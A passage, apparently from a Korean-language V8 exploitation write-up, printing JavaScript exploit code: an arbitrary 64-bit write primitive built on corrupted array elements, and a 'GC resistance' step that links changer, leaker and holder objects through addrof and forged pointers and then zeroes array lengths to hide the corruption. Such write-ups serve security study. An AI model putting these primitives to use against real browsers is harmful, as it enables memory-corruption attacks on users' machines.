 ```jsx
let marker42_idx = offset;

console.log(marker42_idx);

//declare and assign
let b64 = new BigUint64Array(buffer);
let zero = 0n;

//write primitive
function v8h_write64(where, what) {
        b64[0] = zero;
        f64[0] = a[marker42_idx];
        if (u32[1] == 0x6) {
                u32[0] = where-8;
                a[marker42_idx] = f64[0];
        }
        else {
                u32[1] = where-8;
                a[marker42_idx] = f64[0];
        }
        rwarr[0] = what;
}
```

#### GC Resistance

우리가 만든 JS코드를 돌리면서, 중간에 Young space가 가득 차면, Garbage Collection이 발생할 수 있습니다. 그렇게 되면, 객체들의 위치가 변경되면서, offset들을 통해 만든 primitives들이 더 이상 동작하지 않게 됩니다. 이를 대비하기 위해, 객체를 새로 세 개 만들고, 이들을 연결하여, Garbage Collection이 발생해도 유지되는 Primitives를 구현할 것입니다.

아래 코드를 통해 만드는 것은, Changer의 elements는 Leaker 객체를 가르키게, Leaker의 elements는 Holder 객체를 가르키게 하는 것입니다. 이후 사용하였던 x배열, a배열 그리고 rwarr 배열의 length를 0으로 만들어 초기화 합니다. 배열을 초기화하면, corrupt 되었던 것들을 Garbage Collector가 발견하지 못하게 됩니다.

```jsx
//create 3 objects
let changer = [1.1,2.2,3.3,4.4,5.5,6.6]
let leaker  = [1.1,2.2,3.3,4.4,5.5,6.6]
let holder  = {p1: 0x1234, p2: 0x1234, p3: 0x1234};

//get addr of objects
let changer_addr = addrof_tmp(changer);
let leaker_addr = addrof_tmp(leaker);
let holder_addr = addrof_tmp(holder);

//corrupt that objects
u32[0] = holder_addr;
u32[1] = 0xc;
let original_leaker_bytes = f64[0];

u32[0] = leaker_addr;
u32[1] = 0xc;

v8h_write64(changer_addr+0x8, f64[0]);
v8h_write64(leaker_addr+0x8, original_leaker_bytes);

//fix the corruption to the objects in Old Space
x.length = 0;
a.length = 0;
rwarr.length = 0;
```
